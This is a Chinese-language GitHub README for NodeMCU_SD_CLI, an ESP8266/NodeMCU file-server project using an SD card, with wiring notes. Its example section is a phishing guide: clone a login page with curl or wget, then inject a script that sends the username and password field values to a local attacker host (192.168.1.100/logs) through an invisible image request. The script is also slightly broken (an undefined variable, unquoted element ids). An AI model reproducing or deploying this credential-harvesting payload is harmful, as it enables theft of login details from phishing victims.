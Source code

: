 ![sha1.png](./img/sha1.png)

# NodeMCU_SD_CLI

与`ESP-01_FS_CLI`共用一套客户端，命令兼容，只是将闪存改为SD卡。

由于esp8266-01E模块引脚不足（或是不支持SPI协议？？），需要使用**模组**或**开发板**（如NodeMCU），图示为NodeMCU接线图。

```
*  接线：sd卡<---->NodeMCU
*       VCC----------Vin(5V驱动)
*       GND----------GND
*       MISO---------D6
*       MOSI---------D7
*       SCK----------D5
*       CS-----------D8
```

![NodeMCU](./img/NodeMCU.jpg)


# Example

## 用remote-payloads钓鱼

### 剽窃式

1. 先在本地用curl或wget命令获取你想要伪造的页面，remote-payloads也支持wget命令，但获取的页面有长度限制，且不易编辑。

2. 在获取到的HTML文件中<head>标签下加入如下代码：

```html
<script>
window.onload = function() {
	function $(id) {
		return document.getElementById(id)
	}
	function getInput(inputId){
		$(inputId).onblur = function() {
			var img = document.createElement('img');
			img.width = 0;
			img.height = 0;
			img.src = 'http://192.168.1.100/logs?args='+$(inputId).name+': '+inputArea.value;
		}
	}
	getInput(userName);
	getInput(passwordInput); 
}
</script>

```
